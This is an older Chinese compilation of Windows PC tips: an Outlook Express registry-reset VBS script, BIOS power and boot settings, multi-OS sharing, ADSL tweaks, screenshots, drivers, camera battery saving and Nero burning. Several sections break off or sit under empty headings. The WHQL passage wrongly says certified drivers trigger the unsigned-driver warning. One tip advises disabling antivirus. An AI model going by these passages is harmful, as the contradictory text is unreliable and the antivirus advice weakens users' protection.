★建议打开“记事本”，输入以下内容，并将其保存为IDforOE.vbs:

```
Set WshShell = WScript.CreateObject("WScript.Shell")
'Clear the values from the registry
WshShell.RegWrite "HKCU\Identities\Last Username", ""
WshShell.RegWrite "HKCU\Identities\Last User ID", ""
WshShell.RegWrite "HKCU\Identities\Default User ID", ""
WshShell.RegWrite "HKCU\Identities\Start As", ""
'Launch Outlook Express
WSHShell.Run "MsImn.exe"
```

为它在桌面创建一个快捷方式，以后都双击它来启动OE，这样就会让你的邮件更安全。

### OE启动越来越慢

这个问题的原因主要有以下两个：
(1) 收件箱文件夹过大

不要把所有邮件都保存在收件箱这个文件夹下，你可以在此文件夹下建立其他文件夹来分类存放邮件，减轻收件箱负担。并且任何一个.dbx文件（OE中显示的各文件其实都是DBX文件）都尽量不要超过400MB（经验值，但DBX文件越小OE启动速度越快）。
同时，在OE中执行删除邮件或是清空“已删除邮件”的文件夹操作时，OE并没有把它们真正删除，而是将其隐藏起来了，所以要真正删除，要点击“文件→文件夹→压缩所有的文件夹”，这样OE就会完成释放掉删除的邮件空间。
另外，太多的附件也会使得OE的DBX文件过大，所以建议经常清理带有附件的邮件。

(2) Folders.dbx文件损坏
如果这个文件损坏，幸运的话OE启动、执行等动作变慢，严重时所有文件夹都无法显示，甚至OE无法运行。这时首先关闭OE，再删除Folders.dbx文件（直接利用Windows的搜索功能寻找即可），再次运行OE即可自动重建此文件。但由于它主管OE邮件文件夹树状结构，因此删除后你原来定义的文件夹都会消失，邮件也会返回到收件箱中。

## 让BIOS更加快些——主板功能实现技巧面面观

主板本身提供了很多功能，都隐藏在BIOS中，找到它们，熟悉它们，让它们为我们多干些活儿，你一定会觉得其乐无比！

BIOS(Basic Input-Output System)也就是基本输入输出系统，是计算机系统中不可缺少的部分之一，因为BIOS提供计算机系统最基础的功能支持，所以对于一般的计算机用户来说，总是有些神秘，所以今天让我们就来了解一些主板BIOS的技巧！

### 设置主板BIOS自动开机

通过设置主板BIOS，可以实现计算机在约定的时间内自动启动，步骤如下，启动计算机，进入主板BIOS设置，选择“Power Management Setup”设置项，找到“Power On By Alarm”（定时开机），你会发现它是关闭的，将光标移到该项上，将“Disabled”改为“Enabled”，此时就会发现“Power On By Alarm”选项下原本是灰色的日期与时间设置可以更改，只要将光标移到“Date (of Month) Alarm”上，通过Page Down键设置日期，然后再将光标移到“Time (hh:mm:ss) Alarm”上，按照需要将时间设置好，保存设置后，只要BIOS的时钟跳到设置的时间时，计算机就可以自动开机了。

### 用BIOS设置为计算机省电

在“Power Management Setup”中有一项“Power Management”，此项设定让你选择电源节省的类型（或是程度），并直接与以下三个省电模式相关，即硬盘电源关闭、睡眠模式、挂机模式。它主要有三个固定模式设定，Min. Power Saving（最小的电源节省）、Max. Power Saving（最大的电源节省）、User Defined（默认，允许你自行设定每种模式）。当未关闭时每种模式的范围从1分钟到1小时，当然除了硬盘电源关闭为1分钟到15分钟及关闭（Disable）。设置步骤如下：启动计算机，进入BIOS设置主界面，选择“Power Management Setup”设置项，按回车键进入，将光标移到“Power Management”选择项，然后通过Page Up与Page Down键进行三种模式的选择，保存退出，就完成优化了。

### 偷天换日显卡上刷新主板BIOS

刷新主板BIOS失败后怎么办？可以使用热插拔主板BIOS，可是热插拔的前提是你必须找到一块和你损坏的那块主板一样的主板，但是对于一般的用户来说：“哪里去找这个一样的主板，却是个不小的问题，那么如果没有一样的主板，就不能进行热插拔来修复BIOS吗？答案当然是否定的！

一块华硕的主板因刷新BIOS失败而损坏，主板的BIOS的Rom芯片是DIP封装，由于其他主板都不是DIP封装，所以通过两个主板的互换芯片实现热插拔是行不通的，发现该台计算机显卡BIOS是DIP封装，数据引脚和损坏的主板的BIOS的针脚一样，都是32针，把主板的BIOS和显卡拆下，把显卡换到另一台好的计算机上，进入该台好的计算机上的BIOS，把“AGP显卡优先”改为“PCI显卡优先”，保存后关机，拆开机箱，插上一块PCI接口的显卡，把显示器信号线接在PCI显卡上，启动计算机，进入Dos模式，将显卡BIOS刷新工具“NVFLASH”以及主板BIOS文件“XXXXXX.BIN”保存在C盘根目录下，在C:\下输入“ren XXXXXX.bin XXXXXX.rom”（由于显卡的刷新软件，不识别扩展名为*.bin的主板BIOS文件，所以对该主板BIOS文件进行了改名），输入“nvflash XXXXXX.rom”，刷新完毕后关机，拔下显卡上的BIOS芯片，放回原处，就完成了！

### 主板BIOS也能防病毒

主板BIOS也能防病毒，该项设置可防止外部程序对启动区和硬盘分区表的写入，当发生写入操作时，系统会自动产生警告并提示用户中断程序的执行。它并不能保护整个硬盘，而且对于操作系统的安装及某些磁盘诊断程序，甚至对BIOS的升级，都可能产生不必要的冲突而引致程序的中断。

某些BIOS抗病毒内核，它可以提供比普通病毒警告更高一层的防卫，不过，当使用自带BIOS的外围控制器时，启动区病毒可以绕过系统BIOS来进行攻击，保护将完全失效。

在主菜单下选择“Advanced BIOS Features”—“Virus Warning”，选择Enabled：当程序企图写入引导扇区时，系统将给出警告信息，并自动激活防病毒功能。选择Disabled：禁止防病毒功能。

### 机房BIOS设置一步到位

机房里设置BIOS，如果一台台分别设置实在是太麻烦了，不过现在可以使用一个设置软件实现一步到位。

首先，到华军软件园下载iCMOS这个软件，在一台计算机上正确地设置CMOS参数，并在已经设置好CMOS的计算机上解压下载得到的ZIP文件，直接运行iCMOS.exe。

接着，在出现的字符界面中输入“1”，即选择菜单“1.Backup CMOS data”。在出现的“Input filename[.CMS]”提示后面输入用作备份CMOS数据的文件名。回车后，会显示“CMOS data backuped”的提示表示备份完成。

再次，将iCMOS.exe和刚才备份的数据文件复制到一张软盘中，在另一台须要重新设置CMOS的电脑上运行软盘中的iCMOS.exe，在出现的字符界面中输入“2”，即选择菜单“2.Restore CMOS data”。

最后，在出现的“Input filename[.CMS]”提示后输入备份数据文件名并回车。

这时候，被启动的计算机CMOS设置就自动变成了与第一台电脑相同的CMOS设置，依此类推。

### 调整BIOS设置，让系统启动更快

在Quick Power On Self Test项中选“Enable”，这样计算机在启动时就只会对内存进行一次自检，从而加快了启动的速度；如果选“Disable”，则系统会对内存进行多次的自检。在Boot Sequence项中，如果不是用到软盘或光驱启动的，则可选“C only”，让系统从C盘启动；也可以在Boot Up Floppy Seek项中选为“Disable”，让系统在启动时不再检测软驱，这样可以省却检测软驱和光驱的时间。

### 设置主板BIOS实现鼠标、键盘、密码开机

通过主板BIOS设置，可以实现通过鼠标对计算机开机，步骤如下：启动计算机，进入主板BIOS设置，选择“Integrated Peripherals”设置项，将光标移到“Keyboard Power On Function”选项上，选择“Enabled”。然后再从“Power On Function”中选择喜欢的开机方式（鼠标左键开机、热键开机、密码开机等）。选择“Mouse Left”（鼠标左键）开机之后，按Esc键退回到BIOS主菜单，进行保存并退出。这样，我们就可以用鼠标左键来开机了。

PS/2键盘的开机成功率远高于USB键盘，如果采用的是USB键盘，却无法开机，可以换一个PS/2键盘试试！

## 越多越好，玩转多系统

由于机器性能、系统兼容性等多方面的考虑，很多朋友选择了安装多个操作系统，比如 “Windows 98 + Windows XP”、“Windows XP + Windows 2003” 等。可是要用好多系统环境，还真得有那么几条经典技巧……

### 应用程序，我只装一次

要在多操作系统下使用一种应用程序，除非是绿色软件，否则最好的方法是安装两次。但是实在有些不甘心，凭什么必须安装两次呢？难道多操作系统就无法共享这些应用程序吗？答案当然是否定的，以在Windows XP下使用Windows 2000中安装的软件为例：右击桌面上的“我的电脑”，选择“属性”，在“高级”选项卡中点击“环境变量”，在弹出窗口下方的“环境变量”中双击“Path”，在“变量值”输入框的最后添加Windows 2000系统目录的路径，如C:\winnt、C:\winnt\system32等，注意路径间使用“;”来分隔。

有些软件不能完全按照此法操作，另外还需要导入注册表项及使用相关平台上的版本(如Windows 98使用Ansi版本，Windows 2000/XP使用Unicode版本)。

### 庞大字体库，你我都能用

在Windows的Fonts目录下保存着系统中已经安装的字体文件，如果你是一个Photoshop爱好者，或者你喜欢安装各种漂亮的字体。那么，在多操作系统环境下，你不得不面临硬盘空间浪费的问题，因为很多字体(尤其是中文字体)的文件大小都很可观，有时Fonts目录中的字体文件甚至会达到上GB之多，如果必须在多个操作系统下各安装一遍，那该白白浪费掉多少硬盘空间啊！其实，在多系统中可以共享一个字体库，下面以双系统共享字体库的方法为例：

- 第一步：在任意硬盘分区上建立一个新的文件夹，将需要安装的字体文件统统复制到这个文件夹下，建议将这个文件夹建立在非系统分区。
- 第二步：启动至系统A中，在“资源管理器”中打开那个存放新字体的文件夹，按“Ctrl + A”全选该文件夹下的所有文件，按住右键将它们拖拽到系统A的系统字体文件夹中(Fonts)，松开右键后在弹出菜单中选择“在当前位置创建快捷方式”。
- 第三步：启动至系统B中，用同样的方法将新字体的快捷方式建立到系统字体文件夹中。现在两个系统就都能够使用这些字体了，而且快捷方式只占用极小的硬盘空间，真正的字体文件并没有复制到系统的字体文件夹中。

### 虚拟内存不分家

每个系统在安装后都会生成自己的虚拟内存文件，多系统如果能够共享虚拟内存文件，那就会省下很多磁盘空间。现在分别以两种情况讨论：

### 1. Windows 98中使用Windows XP的虚拟内存(两系统分区格式皆为FAT32)

- ①进入Windows XP，右击“我的电脑”选择“属性”，在“高级”选项卡的“性能”栏点击“设置”，在弹出窗口中选择“高级”选项卡，在“虚拟内存”栏内点击“更改”按钮。在“驱动器”列表中选择虚拟内存文件所在分区，点击“自定义大小”单选框，然后设置虚拟内存的大小(一般设为物理内存的2倍，此处设为512MB)，将“初始大小”和“最大值”均设置为该值。点击“设置→确定”关闭窗口。
- ②重启进入Windows 98，在“C:\Windows”目录下找到System.ini(此为隐藏文件)。用“记事本”打开此文件，找到“[386ENH]”，根据刚才在Windows XP中的设置做如下修改。

```
pagingfile=D:\pagefile.sys    // 使用D盘的Pagefile.sys(即Windows XP的虚拟内存文件)作为虚拟内存文件
maxpagingfilesize=524288      // 设置虚拟内存最大值为524288KB，即512MB
minpagingfilesize=524288      // 设置虚拟内存最小值为524288KB，即512MB
```

- ③重启后删除C盘的Win386.swp文件。

### 2. Windows XP中使用Windows 98的虚拟内存

- ①进入Windows 98，打开“开始→设置→控制面板→系统→性能→虚拟内存”，选择“用户自己指定虚拟内存设置”，将虚拟内存位置设在C盘，并将最小值与最大值都设为512MB。
- ②重启进入Windows XP，在“开始→运行”中输入“regedit”，打开“注册表编辑器”，分别展开分支[HKEY_LOCAL_MACHINE\SYSTEM\ControlSet*\Control\SessionManager\MemoryManagement](其中*代表“001”、“002”等数字)和[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management]，在右侧空格中将“PagingFiles”的值修改为“C:\win386.swp 512 512”(512是刚才在Windows 98中设置的虚拟内存文件最大值和最小值)。
- ③分别展开分支[ HKEY_LOCAL_MACHINE\SYSTEM\ControlSet*\Control\BackupRestore\FilesNotToBackup](其中*代表“001”、“002”等数字)和[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\BackupRestore\FilesNotToBackup]，将“Memory Page File”的值修改为“Win386.swp”。
- ④关闭“注册表编辑器”，重启进入Windows XP并将Pagefile.sys文件删除。

### 转移输入法自定义词组

在Windows 98输入法中的自定义词组，能不能转移到别的系统中去呢(此处以Windows 98→Windows XP为例)？

- ①王码五笔86：Office中自带的王码五笔(86版)是大家用得最多的五笔之一，其自定义词组文件Winwb86.emb默认保存在Windows 98的Windows\System目录下。只需直接将该文件复制到Windows XP的Windows\System32目录下就可以使用原先自定义的词组了。
- ②微软拼音：在Windows 98中启动微软拼音输入法，用鼠标右键单击输入法状态条，选择“定义辞典”，打开“微软拼音输入法用户自造词工具”，选择菜单“文件→另存为文本文件”，指定保存路径及文件名后，单击“确定”保存。在Windows XP中用“记事本”打开该文件，将其另存成Unicode编码的文本文件，然后启动Windows XP中微软拼音输入法用户自造词工具，选择菜单“文件→导入”，根据提示将刚才另存的文本导入。
- ③智能ABC：在Windows 98中的“Windows\System”目录下，找到Tmmr.rem和User.rem这两个文件，然后将其复制到Windows XP的“Documents and Settings\<用户名>\Application Data\Microsoft\Ime\Winabc”目录下，覆盖已经存在的两个同名文件就可以了。
- ④全拼：在Windows 98中的“Windows\System”目录下找到Winpy.emb，将其复制到Windows XP的“Documents and Settings\<用户名>\Application Data\Microsoft\Ime\Winpy”目录下即可。

## “抓”出的精彩

抓图很简单，几乎人人都会，只要按下键盘上的Print Screen键即可，如果再多按一个Alt键，就可以只抓取当前窗口图像。当然，这也仅仅能应付一些小问题，至于高难度的嘛，还是看看下面的技巧吧。

### 截取电影视频中的图像

截取电影视频中的图像，是不少人都会遇到的问题。这其实是“Video Overlay”(视频重叠)原理。“Video Overlay”就是在桌面上重新绘制一个新的图像层，该图像层用来显示视频图像，两层之间互不影响，这是不是有点像Photoshop的图像概念？这也就是为什么可以在桌面上用任意大小窗口播放视频文件的原因。也正因为如此，用视频播放软件对视频画面进行调整亮度、对比度时，不会影响其他位置的显示效果。
由于以上原因，用一般的抓图方法抓取视频图像时，只会得到一个“黑屏”，怎么解决这个问题呢？

- 方法一：抓取视频图像最简单的方法就是使用视频软件本身提供的抓图功能。比如在“豪杰解霸”中就可以用Ctrl + F1组合键进行抓图。
- 方法二：我们可以同时播放两个视频文件，这样后打开的视频文件就能用Print Screen键抓取。由于多数显卡仅支持一个Video Overlay，所以当打开第二个窗口进行播放时，就会使用DirectX的VMR方式或是软件方式进行播放。
- 方法三：去除视频加速。右击桌面空白处，选择“属性”，点击“设置→高级→疑难解答”，将“硬件加速”的滑块移至“无”，再用Print Screen键抓图即可。
- 方法四：使用SnagIt抓图软件进行截图。下载地址：http://nj.onlinedown.net/soft/5306.htm，汉化包下载地址：http://nj.onlinedown.net/soft/5305.htm。

### 抓就抓出“动态电影”

很多高手在论坛中的签名都是动态效果，通常是来自于某个电影片断，你知道它是怎么制作的吗？其实根本不需要其他软件，只要有QQ，你也能做出这样的“电影签名”。
第一步：进入QQ，打开任意聊天窗口，点击“捕获屏幕”按钮右侧三角按钮，选择“影片截图设置”(见图1)。在弹出窗口中设置截取动态窗口，注意：如果“每次捕获”的帧数较多，则要将“截取的动态图片宽度”调小(见图2)。
第二步：播放视频电影，并跳至需要截取





## ADSL 经典技巧一箩筐

### Windows Vista 启动后便上网

现在Windows Vista系统已经与用户见面了，很多朋友也在爱机中装上了Windows Vista系统。如何让它启动后就能自动通过ADSL接入因特网呢？

第一步：建立ADSL连接，并且在桌面建立一个快捷方式图标。

第二步：在控制面板中双击网络连接（Network Connections），在打开的窗口中右击ADSL连接图标，选择弹出的快捷菜单中的“Properties（属性）”命令，在打开的窗口中选择“Options”选项卡，取消选择“Dialing options”区中的“Prompt for name and password...”及“Include Windows logon domain”选项，最后单击“OK”按钮保存配置（见图1）。



第三步：回到桌面，直接将先前建立的ADSL拨号连接快捷方式拖至“Start → Programs → Startup”组中即可。这样设置后，每当你启动Windows Vista系统后，ADSL拨号连接就会自动进行拨号上网了。

### 让你的宽带智能断开连接

很多时候在进行下载、上传文件时，有时会遇到对方服务器出现问题，网速变得很慢，甚至网速几乎接近零。一般这种情况下，相应的软件并不能自动断开网络连接，而对于那些计时上网的朋友来说就是一大损失了。其实，你也可以让你的系统在不使用网络时智能断开连接，替你节约大批银两：

方法1：在“控制面板”中右击ADSL拨号连接，选项“属性”项，在打开的窗口中选择“选项”选项卡，在“挂断前的空闲时间”右侧的下拉列表中选择“5分钟”（或是其他合适的时间），取消选择“断线重拨”选项，最后单击“确定”按钮。这样，当网络连接空闲设定的时间后，便会自动断开连接了。

方法2：从http://www.skycn.com/soft/3572.html下载一款名叫“DU Meter”的软件，下载完毕后将其安装到系统中运行后，右击系统托盘区中的程序图标，选择弹出的快捷菜单中的“设置”选项，打开程序设置窗口，然后选择“通知”选项卡，如图2所示。



勾选“启用通知”选项，然后设置“当少于”的数值为“100”，并且设置是“下载”还是“上传”，在“附加动作”下拉列表中选择“终止全部活动的拨号连接”选项，最后单击“确定”按钮。这样设置后，如果你想让DU Meter帮助你智能断开网络连接，只要运行它即可，当你的系统中的网络流量少于设定的数值时便会自动断开连接了。

### 让 ADSL 在多用户之间共享

很多朋友由于工作需要，系统中可能创建了多个账户，并且多个账户经常同时登录，这时，如果要切换账户的话，一般ADSL连接将会自动断开。其实，只要按下面方法就能达到在多个账户间切换时不用重新拨号连接ADSL了：

打开注册表编辑器，找到[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\WinLogon]，在对应WinLogon分支的右边子窗口中，依次单击菜单栏中的“编辑→新建”新建一个“Dword值”，并命名为“KeepRasConnections”，接着双击“KeepRasConnections”双字节值，为其赋值为“1”，最后重启电脑即可。

### IE 浏览器自动对付不稳定的 ADSL

有时，由于种种因素导致ADSL连接不稳定，经常自动断开，断开后需要手工去进行拨号。其实，你可以让你的IE浏览器自动对付它，当ADSL断开时，IE浏览器便自动进行拨号了：

在控制面板中打开网络连接，右击ADSL连接图标，然后选择打开的窗口中的“选项”选项卡，然后勾选最下面的“断线重拨”选项，最后单击“确定”按钮即可。

### 两块网卡两台电脑即可上网

现在一家有两台电脑并不少见了，但两台电脑同时上网的话，通常的做法是使用像集线器、交换机这样的网络连接设备才能共享上网。其实，你只要多添加一块网卡，就可以避免使用这些中间的网络设备而让两台电脑都能上网了。

第一步：在连接因特网上的电脑中安装双网卡，其中一块连接ADSL猫，另一块连接第二台电脑。连接ADSL的网卡的连接设置全部按其默认设置，不用设置IP地址这些参数。

第二步：制作一根交叉线。先按标准的T568A给线排序，最后再对调第1根与第3根，第2根与第6根。制作好后用网线连接两台电脑，再配置好协议确保两台电脑之间可以互访。

第三步：在第一台电脑（连接因特网的那台电脑）中打开网络连接窗口，然后选择右侧窗口中的“设置家庭或小型办公网络”，启动“网络安装向导”。选择“这台计算机直接连接到Internet，我的网络上的其他计算机通过这台计算机连接到Internet”，然后继续点击“下一步”，再选择先前设置的ADSL拨号连接（注意：因为主机中有两块网卡，因此相对应也有两个Internet连接，一个连接到ADSL网络，另一个连接到家庭局域网，在此必须要选择ADSL连接）。接下来的几个步骤可以不去管它，一路按“下一步”就可以了，直至出现最后“快完成了”步骤时，选择第一项，再插入软盘，系统会自动在软盘中制作一个可以在第二台电脑上运行并配置网络连接的程序。“完成向导…”选项再按照向导完成设置即可。

### 没有抓图软件也能批量截图

当一次需要抓取大量图片，但手边又没有抓图软件时，怎么办呢？你可以试试用Word，配合键盘上的Print Screen键，来完成批量抓图。

用Word新建一个文件，然后用Print Screen键抓取图片，每抓取一次就在Word中按Ctrl + V进行一次粘贴操作。

全部完成后，点击菜单中的“文件→另存为”项，在“保存类型”中设置为“网页（*.htm；*.html）”项即可。

### 截取 QQ 视频文件

很多朋友都想录下QQ时的视频画面，那么应该怎么记录呢？这里为大家推荐一款名为“QQ视频录像机”（下载地址：http://nj.onlinedown.net/soft/40256.htm）的软件。这款软件可以录制全屏、指定窗口或指定范围内的各种视频内容，还可以录下声音，非常方便。

比如我们要录制QQ视频窗口，那么，打开软件后，选择好“指定范围”（见图3），点击红色录制按钮，框选QQ视频窗口位置，再设置好保存的文件名，软件就会开始录像，结束录制时按F7即可。注意未注册的软件，只能录制10秒钟内容。



### 快速提取不规则文字

有时，我们要复制和粘贴一些特殊的文字对象，比如某目录下的所有文件，状态面板或错误提示信息等，这些内容用一般的方法通常非常麻烦或根本无法完成。这种操作同样可以让SnagIt帮你完成：进入SnagIt，点击“模式”下的“文字”按钮，点击“捕获”按钮或按相应的快捷键即可完成抓取操作。

### 快速提示资源文件

我们平常提取某个资源文件中的图片多是用exeScope，其实我们用SnagIt同样可以提取这些资源。

第一步：打开SnagIt，在“输入”点击“高级→程序文件”。

第二步：点击“捕获”按钮，选择资源文件，然后在“类型”中根据提取内容选择“位图”、“图标”或“光标”项，最后点击“确定”完成捕获保存即可。

## 另类而实用，跟我玩转驱动

### 有备无患，给驱动做备份

重装系统后最麻烦的事之一就是装驱动，如果硬件驱动光盘丢失或是根本记不起来硬件的型号，那就更烦人了。所以建议你有备无患，在平时就使用“驱动精灵”（下载地址：http://nj.onlinedown.net/soft/1790.htm）备份电脑的驱动。下载安装后，只需在界面左侧勾选需要备份的硬件，然后点击“开始备份”就能完成驱动的备份。在重装完系统，需要还原备份驱动时，打开软件点击工具栏按钮“还原驱动”，选择好驱动备份的目录后，勾选需要还原的设备点击“开始还原”即可。

### 让兼容性告别再骚扰我

追逐新鲜和速度的朋友大多会选择厂商发布的最新版本驱动程序，而这类驱动程序往往是通过 WHQL 认证的（WHQL 的全名是“Windows 硬件设备质量实验室”，它是微软推出的一项针对硬件在 Windows 下兼容性状况的认证，通过 WHQL 认证的驱动程序可以保证在 Windows 下工作的最佳稳定性）。在安装此类驱动程序时，Windows 会弹出警告窗口，提醒未经过数字签名，安装后可能导致系统不稳定，我们该如何屏蔽它（以 Windows XP 为例）？



### 巧改驱动，换主板不再重装系统

更换显卡、声卡、网卡之类硬件后，只需卸载原来驱动，再安装新驱动即可，即使出现无法正常进入系统的情况，也可以通过安全模式来解决驱动故障。但如果更换了主板，我们仍能让系统泰然处之吗？很多朋友被迫重装了系统，装系统倒是不太麻烦，可是装完系统后要装的一大堆软件却让人傻了眼。其实不必这么麻烦，在更换主板前，先按照如下步骤对系统进行一些更改，就能避免重装（此方法针对 Windows 2000/XP，本文以 Windows XP 为例）。

- 第一步：右击桌面上的“我的电脑”，选择“属性”，在弹出的“系统属性”窗口中选择“硬件”选项卡，然后点击“设备管理器”按钮。
- 第二步：在“设备管理器”窗口中，点击展开“IDE ATA/ATAPI 控制器”，然后双击其下的控制器名（一般形如“Intel(R)……IDE Controller”或者“VIA……IDE Controller”），然后在弹出的设备属性窗口中，选择“驱动程序”选项卡，点击“更新驱动程序”按钮。
- 第三步：弹出“硬件更新向导”界面，选择“否，暂时不”并点击“下一步”，然后选择“从列表或指定位置安装（高级）”，并再点“下一步”，接着选择“不要搜索。我要自己选择要安装的驱动程序”，点击“下一步”后，在出现的列表中选择“标准双通道 PCI IDE 控制器”，按照提示完成驱动的更改。现在关机，换上新主板后重启，第一次重启过程比较慢，然后还可能出现提示需要重启，启动几次后，系统恢复正常。

打开其“属性”对话框，切换到“驱动程序”选项卡并点击“卸载”，这样就能将它们从电脑中彻底删除了。

### 巧用卷驱动隐藏硬盘分区

在大学宿舍或类似的公共环境中，硬盘里要藏点隐私还真是不易。如何既能让室友分享你的电脑，又不至于暴露隐私？在 Windows 2000/XP 中打开“设备管理器”，选择菜单“查看→显示隐藏的设备”，在设备列表中就会出现一项“存储卷”设备，展开它之后在其下是若干个“通用卷”，随意选择一个“通用卷”右击之并选择“停用”，打开“我的电脑”检查哪个分区被隐藏了，经过几次试验最终找到需要隐藏的分区所对应的“通用卷”并将其停用（在测试过程中，无需隐藏的卷只需右击并选择“启用”即可恢复，如在停用过程中弹出“您的硬件设置已经过更改……”字样的提示框，则正在停用的卷对应的为系统分区，建议启用该卷），在弹出的“禁用该设备会使其停止运行。确实要禁用该设备吗？”提示框中选择“是”。这样无论是在“我的电脑”还是“命令提示符”下都找不到这个盘符了。

### 提高老化显示器亮度

显示器老化之后，其亮度就会越来越低。有很多朋友的显示器都需要经过开机“预热”半小时的过程，才能达到可以接受的亮度，最糟糕的是你发现显示器的亮度已经调节到 100 了……试着从显卡驱动程序上找找法子吧，以 nVIDIA 显卡为例，右击桌面空白处选择“属性”，在弹出的“显示属性”窗口中选择“设置”选项卡，点击“高级”，在弹出窗口中选择以显卡型号为名称（如 Geforce2 MX/MX 400）的选项卡，在左侧的浮动栏中选择“彩色校正”，拖动“亮度”控制条至合适的亮度。

## 数码相机‘酷玩’必备武器

### 不是用来吃的黄豆包

出外游玩，沉重的三脚架可不是好选择。可是如果遇到某个景点需要自拍怎么办？坎坷不平的表面上相机是不可能保证水平的。其实只需要缝一个小小的布袋子，里面装满黄豆。然后在需要自拍的时候，将黄豆包垫在相机下，略微调整就可以保证相机处于水平位置，而且不会晃动。怎么样，这个法子够简单吧？而且当你在野外迷路，弹尽粮绝的时候，黄豆还可以果腹，还可以……布袋子应该使用较为细密、结实的布来缝制，而且要表面比较粗糙，绝对不能使用丝绸等很光滑的布料。这样不但可以避免意外划破，也可以让相机不会从布袋上划下来。另外，装黄豆时不要太满，不然就没法做垫子了。一般来说装到三分之一到一半比较合适。当然，除了黄豆外，诸如绿豆、豌豆、大米等都可以，面粉一类的粉末也不错。但是一定不能用会散发异味、容易腐败变质的东西来填充，不然把相机搞得惨不忍睹可别怪我啊！”



### DC 省电五大招

外出使用 DC，带再多电池也总是觉得不够用。但只要我们掌握一些常用省电技巧，电池使用时间就能极大延长。

- 少用LCD多用EVF：能够看 LCD 取景是 DC 的一大优势，而且对于摄影菜鸟来说也很容易使用。但 LCD 却是耗电大户，长时间开着 LCD 只会让电力迅速耗光。其实只要多尝试使用 EVF 光学取景器，一样可以拍出出色的照片，而电池使用时间几乎可以达到以前的两倍。
- 晚上不是必须用闪光灯：除了 LCD，闪光灯消耗电力也非常厉害。不过很多时候，闪光灯并不是必要的。例如晚上拍摄人物，用了闪光虽然让任务的亮度更高，但背景却会变成漆黑一片。这时需要关闭闪光灯，改为调高 ISO 值并增加曝光补偿来获得理想的拍摄效果。
- 白天更不是必须用闪光灯：白天光线条件充足的情况下，更是不需要使用闪光灯，把闪光灯强制关闭，然后增加一档光圈，缩短一档快门时间，这样能够保证不开闪光灯的情况下拍出的照片也不会因抖动而产生模糊感觉。TIPS:有时候开闪光灯拍出的人物照片，面部看上去特别光，感觉脸上有一层油一样，其实这也是因为闪光灯功率不足的原因，是现在大多数便携 DC 的通病。调大光圈，缩短快门时间，禁用闪光灯也可以有效避免这种情况。
- 减少机械运动：避免不必要的镜头拉近拉远操作，因为控制电机也会消耗不少的电力。
- 省电模式：现在大多数 DC 都内置了各种省电方案。按照当时的拍摄情况，选择正确的省电模式，可以显著延长电池使用时间。这些省电方案一般具有“自动关闭液晶显示屏”、“自动关机”等功能，我们应当把自动关闭 LCD 液晶屏幕的时间设定较短，比如一分钟，而自动关机的时间设定较长，比如十分钟。这样设置的原因是 LCD 自身耗电很大，尽量减少它工作的时间。而自动关机的时间之所以较长，因为开关一次相机，耗电量其实相当大。所以节电的好办法是减少开关机次数。

## 刻录得与众不同

不少人都会刻录光盘，但刻录中的技巧很多，来看看高手是如何刻录的吧。

### 加快 Nero 列表显示速度

用 Nero 刻盘时，每次从文件列表中拖拽文件时，速度都会很慢才显示出来。这个问题是由于每次点击后，杀毒软件都要对目录进行扫描，所以就会很慢。因此，建议你刻录光盘时，断开网线，关掉杀毒软件，然后再进行刻录。

### 快速查看光盘的实际容量

在 Nero 中，我们可以快速查看一张光盘的实际使用容量、可用的空间，这样在续刻时，可以很方便地了解光盘的信息，方法很简单:只要按下 Ctrl+I 或是选择菜单中的“刻录器→光盘信息”即可。

### 用 Nero 抓取 CD 音轨

很多朋友都会问怎么将 CD 转换为 MP3，应该用什么软件？其实用 Nero 就可以直接抓轨了。

- 第一步:打开 Nero，将 CD 光盘放入光驱。
- 第二步:点击菜单中的“其他选项→保存轨道”，这时，Nero 就会读取音乐 CD。
- 第三步:你可以使用“播放”等按钮试听，然后在“输出格式”中选择“PowerPack Lame MP3 Encoder(*.mp3)”，同时设置好“路径”，并设置“文件命名方式”为“使用者定义”，修改“文件名称模板”为“%N”。最后点击“继续”即可(见图1)。



### 让 Nero 使用最快的硬盘

进入 Nero，点击“文件”菜单下的“设置”，在弹出窗口中点击“缓存”标签，点击“测试所有驱动器速度”按钮，稍候，就可以在“速度”下拉菜单中看到测试结果了，选择速度最快的分区，将缓存设置在该分区上的某个文件夹下即可(见图2)。



### 在 Nero 中添加特定文件

有时候，通过 Nero 备份某一文件夹下的特定文件时，可以按如下方法进行操作:打开 Nero，选择“CD-ROM(ISO)”项，再单击“新建”按钮，然后用鼠标在右侧的“文件浏览器”窗口中找到欲刻录文件所在的文件夹，再用右键把文件拖到左侧光盘窗口中，这时就会弹出“过滤文件”窗口，在“包括下列类型的文件”中输入要复制的文件类型，如 *.TXT、*.RMVB 等等，这样扩展名为 TXT 及 RMVB 的文件就会添加到光盘窗口中。

### 想唱就唱:用 Nero 录制卡拉 OK

一般我们提到卡拉 OK，就会想起 COOLEDIT 这款专业的音频播放软件，其实用 Nero 一样可以进行简单地修改、合并。

- 第一步:先用录音机或其他录音软件，录下清唱的歌声。
- 第二步:点击菜单中的“开始→程序→Nero→Nero 6 Ultra Edition→Nero SoundTrax”。
- 第三步:在窗口左侧的空白处右击，选择“插入轨道”，这时就会出现“1 - 未命名”及“2 - 未命名”两条轨道及控制面板(见图3)。



- 第四步:双击“1 - 未命名”右侧的空白音轨，打开刚刚录制好的清唱歌曲，双击“2 - 未命名”右侧的空白音轨，打开伴奏曲。
- 第五步:双击“1 - 未命名”音轨，打开“Nero 波形编辑器”窗口，通过“效果”、“工具”、“增强”菜单下的项目来修改音频，去除噪音。
- 第六步:处理完成后，回到“Nero SoundTrax”窗口，通过“1 - 未命名”及“2 - 未命名”，控制面板上的播放按钮，播放歌曲，确认无误。
- 第七步:选择“文件→导出到音轨文件”项，在“保存类型”下拉菜单中选择“PowerPack Lame MP3 Encoder(*.mp3)”即可。

### 使用 Nero 的 DVD 超刻功能

进入 Nero 后，选择菜单中的“文件→设置”，点击“高级属性”标签，勾选“启用 DVD 超刻”，在“DVD 最大容量”中输入“4600”，然后再进行刻录，同时不要进行多区段刻录即可。

### 多碟同时刻录

有不少朋友家里会有两台刻录机，比如一台 COMBO 和一台 DVD 刻录机，那么我们如何同时让多台刻录机同时刻录呢？其实方法非常简单:选择好要刻录的文件后，点击“刻录”按钮，然后勾选“使用多个刻录机”项(见图4)，这时会弹出刻录机选择窗口，用 Shift 及 Ctrl 键选择好刻录机，进行刻录即可。



### 万能塑料袋

